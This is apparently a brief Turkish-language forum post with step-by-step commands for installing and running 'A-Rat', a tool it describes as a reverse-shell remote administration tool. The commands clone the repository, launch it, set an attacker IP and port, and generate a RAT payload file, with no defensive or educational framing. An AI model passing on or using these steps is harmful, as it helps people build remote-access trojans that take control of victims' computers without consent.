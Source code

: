 LMFAO RAT.  

apt update

apt upgrade

apt install git

apt install python2

apt install python

git clone GitHub - RexTheGod/A-Rat: A-Rat ( Remote Administration Tools ) Based Reverse Shell Coded By ./Xi4u7 Use 'help' To Tutorial :)

cd A-Rat

chmod +x *

python2 A-Rat.py

help

set host 127.0.0.1 [your ip]

set port 1337

set output /$HOME/rat.py

generate


Yukarıdaki komutları tek tek çalıştırarak toolu kullanabilirsiniz.